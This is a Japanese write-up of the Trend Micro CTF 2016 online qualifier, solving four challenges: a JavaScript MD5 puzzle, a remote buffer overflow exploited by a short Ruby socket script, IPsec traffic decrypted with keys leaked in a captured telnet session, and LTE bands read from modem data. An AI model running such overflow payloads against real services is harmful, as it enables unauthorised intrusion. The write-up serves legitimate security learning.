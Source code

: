 ```yaml
---
date: "2016-08-17T00:17:26+09:00"
title: "Trend Micro CTF 2016 Online qualifier"
tags:
  - CTF
  - Write-ups
  - TMCTF
slug: tmctf2016-qual
---
```


日本時間 2016-07-30 13:00 から 2016-07-31 13:00まで（24時間）に行われた[Trend Micro CTF 2016](http://www.trendmicro.co.jp/jp/sp/ctf2016_jp/)のwrite-upです。

urandomは4問解答し600点、92位でした。

Analysis-Offensive 100をyyu、Analysis-Offensive 200、Misc 100、Misc 200をmaythが解答しました。


# Analysis - Offensive 100

> Category: Analysis/Offensive
>
> Points: 100
>
> Please enter key. Key is TMCTF flag.
> 
> Download the file
> Decrypt the downloaded file by the following command.
> 
> `openssl enc -d -aes-256-cbc -k x0nSTZ9NrDgvCnqKhL9y -in files1.enc -out files1.zip`
> 
> `unzip files1.zip`

この問題は巨大なJavaScriptから正解の鍵を得るというものです。
まず、巨大なJavaScriptのうちの多くの部分は定数をGoogleで調べるなどすると、MD5を実装しているということが分かります。そして、次の3つの文字列もMD5のハッシュ値であろうという推測ができます。

```javascript
var ko = "c33367701511b4f6020ec61ded352059";

var ka = "61636f697b57b5b7d389db0edb801fc3";

var kq = "d2172edf24129e06f3913376a12919a4";
```

これらをまたGoogleで調べると、それぞれ次のような文字列であることが分かります。

- `c33367701511b4f6020ec61ded352059` → `654321`
- `61636f697b57b5b7d389db0edb801fc3` → `qwerty`
- `d2172edf24129e06f3913376a12919a4` → `admin`

そして次の処理でこれらの文字列を変数`nl`に従って並び換えているということが分かります。

```javascript
var c = "", d = "", e = "";
for (var f = 0; f < b.length; ) {
    c += b[nl[++f]];
    d += b[nl[++f]];
    e += b[nl[++f]];
}

// ......中略......

var nl = [ 0, 2, 1, 12, 7, 15, 5, 4, 8, 16, 17, 3, 9, 10, 14, 11, 13, 6, 0 ];
```

最終的にフラグは`TMCTF{q6r4dy5ei2na1twm3}`でした。


# Analysis - Offensive 200

> Category: Analysis - offensive
>
> Points: 200
>
> This challenge is composed of a simple remote overflow of a global array. The server address is 52.197.128.90 and the vulnerable application listens on TCP port 80-85. Each port has the same behavior so you can select one of them.
>
> The following code contains a bug that can be exploited to read back a flag:
>
```c
int pwned;
char buffer[1024];

DWORD WINAPI CallBack(LPVOID lpParameter) {
	pwned = 0;
	ZeroMemory(buffer, 1024);
	SOCKET *sock = (SOCKET *)lpParameter;
	SOCKET _sock = *sock;
	send(_sock, "Welcome", 8, 0);
	int ret = 0;
	ret = recv(_sock, buffer, 1028, 0);
	printf("[x] RET: %d.\n", ret);
	printf("[x] PWNED: 0x%x.\n", pwned);
	Sleep(1);
	if (((pwned >> 16)&0xFFFF ^ 0xc0fe) == 0x7eaf && (((pwned & 0xFFFF)^0x1a1a) == 0xdae4)) {

			send(_sock, "PWNED", 5, 0);
			ReadAndReturn(L"key.txt", _sock);
			closesocket(_sock);
			return 0;
	}
	else {
		send(_sock, "GO AWAY", 7, 0);
		closesocket(_sock);
	}

	return 0;
 }
```
>
>
> Craft a packet that would return a valid flag. Good luck!

`buffer`が1024バイトしか確保されていないにもかかわらず、11行目で `ret = recv(_sock, buffer, 1028, 0);` と1028バイト読み込むようになっている。したがって、1025-1028バイトの範囲に特定のバイト列を仕込めばよい。満たすべき条件は15行目のif文。

なぜか `nc` が1024バイトで送信を打ち切ってしまったので、Rubyで書いた。

```ruby
require 'socket'

HOST = '52.197.128.90'
port = (80..85).to_a.sample

puts "connecting #{HOST}:#{port}"
sock = TCPSocket.open('52.197.128.90', port)

payload = 'a' * 1024 + "\xfe\xc0\x51\xbe"

sock.read(8)
sock.send(payload, 0)
while r = sock.gets
  puts r
end
```

そして正解をメモし忘れた 😇


# Misc 100

> Category: Misc(iot and network)
>
> Points: 100
>
> Please analyze this pcap.

pcapファイルが渡される。中身を見ると、IPsecな通信と、普通にtelnetしている通信がある。

Wiresharkでtelnetでのやりとりをテキストとして見ると、 `ip xfrm state`を叩いている箇所がある。

```
.]0;reds@localhost:~.[reds@localhost ~]$ sudo ip xfrm state
.sudo ip xfrm state
[sudo] password for reds: ynwa
.
src 1.1.1.11 dst 1.1.1.10
	proto esp spi 0xfab21777 reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x11cf27c5b3357a5fd5d26d253fffd5339a99b4d1
	enc cbc(aes) 0xfa19ff5565b1666d3dd16fcfda62820da44b2b51672a85fed155521bedb243ee
src 1.1.1.10 dst 1.1.1.11
	proto esp spi 0xbfd6dc1c reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x829b457814bd8856e51cce1d745619507ca1b257
	enc cbc(aes) 0x2a340c090abec9186c841017714a233fba6144b3cb20c898db4a30f02b0a003d
src 1.1.1.10 dst 1.1.1.11
	proto esp spi 0xeea1503c reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x951d2d93498d2e7479c28c1bcc203ace34d7fcde
	enc cbc(aes) 0x6ec6072dd25a6bcb7b9b3b516529acb641a1b356999f791eb971e57cc934a5eb
src 1.1.1.11 dst 1.1.1.10
	proto esp spi 0xd4d2074d reqid 16389 mode tunnel
	replay-window 32 flag 20
	auth hmac(sha1) 0x100a0b23fc006c867455506843cc96ad26026ec0
	enc cbc(aes) 0xdcfbc7d33d3c606de488c6efac4624ed50b550c88be0d62befb049992972cca6
```

この情報を元に、IPsecの通信の中身を見ることができる。すると、HTTPでいくつかやりとりをしている箇所が見つかる。その中に `flag.png` というファイルのダウンロードが含まれている。これを抽出して開くと、フラグが書かれている。


# Misc 200

> Category: Misc(iot and network)
>
> Points: 200
>
> find all LTE bands this phone supported.
>
> the final answer will be from small to big, and use ',' to seperate without spaces.
>
> example> if the answer is band 1 and 2 and 3, the key should be: "TMCTF{1,2,3}"

`ModemSettings.txt` というファイルが与えられ、そこからその携帯電話の対応しているLTEバンドを答える。

この `ModemSettings.txt` はどうやら NV-items_reader_writerというソフトウェアによる出力らしい。

LTEのバンドに関する設定は"6828"番にあるという。該当する箇所を引用する。

```
6828 (0x1AAC)   -   OK
FF 1D 1F 03 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

ここに書き込まれている数値が対応LTEバンドを表している。ビット単位で読んで、あるビットが立っていたら、そのビットと対応するバンドをサポートしていることを意味している。最右ビットがバンド1に対応する。

寝起きでつらいワンライナーを書いておしまい。エンディアンに注意。

```ruby
i=0; puts (0x031F1DFF).to_s(2).reverse.split(//).map { |c| i +=1; [c, i] }.select { |x| x[0] == '1' }.map { |x| x[1] }.join(',')
```
